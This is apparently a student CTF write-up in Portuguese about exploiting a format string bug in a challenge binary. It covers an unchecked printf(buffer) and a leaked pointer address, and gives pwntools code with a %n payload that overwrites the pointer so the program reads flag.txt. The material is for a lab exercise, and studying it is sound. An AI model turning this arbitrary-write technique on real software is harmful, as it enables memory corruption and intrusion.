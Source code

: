 # Format Strings

## Setup

- Foi executado o comando `checksec` para identificar as proteções ativas no binário fornecido.

![image](screenshots/CTF6_1.png)

- As proteções presentes permitem que explorarmos vulnerabilidades de escrita arbitrária na memória.

## Reconhecimento

- O código fonte foi analisado para identificar as vulnerabilidades.

1. **Existência de Ficheiros Lidos**

   - A função `readtxt` lê um ficheiro chamado `"rules.txt"` ao inicializar o programa.
   - O nome do ficheiro pode ser manipulado pela exploração da vulnerabilidade de format string.

2. **Existência de `format string` Vulnerável**

   - Na função `main`, o programa usa diretamente `printf(buffer)` para exibir o input do utilizador, sem realizar validação.
   - Isso permite explorar a vulnerabilidade de format string para ler ou sobrescrever endereços de memória.

3. **Ação Potencial**

   - Substituir o nome do ficheiro lido de `rules.txt` para `flag.txt` através de manipulação da memória.

## Exploit

- O programa fornece o endereço da variável `fun` na memória:

```c
printf("I will give you an hint: %x\n", &fun);
```

- Extraímos então esse endereço utilizando regex

```py
match = re.search(r'I will give you an hint: (0x)?([0-9a-fA-F]+)', output)
if match:
    fun_addr = int(match.group(2), 16)
    print(f"[+] Endereço de fun extraído: {hex(fun_addr)}")
else:
    print("[-] Falha ao extrair o endereço de fun")
    r.close()
    exit()
```

- Foi criado um payload para modificar o valor do pointer `fun` para que a função `readtxt` seja chamada novamente com `flag.txt`:

```py
payload = b"./flag.." + p32(fun_addr) + b"%8x" + b"%.134518673x%n"
```
1. `./flag..`: O início do nome flag seguido por bytes de ajuste.
2. `p32(fun_addr)`: Endereço do ponteiro fun.
3. `%8x`: Preenche a pilha para alcançar o local correto de escrita.
4. `%.134518673x%n`: Ajusta o contador para escrever o valor necessário no endereço especificado.

- O payload foi enviado ao serviço remoto através do comando:

```py
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)

r.interactive()
```

- Foi possível então encontrarmos a flag.

![image](screenshots/CTF6_2.png)

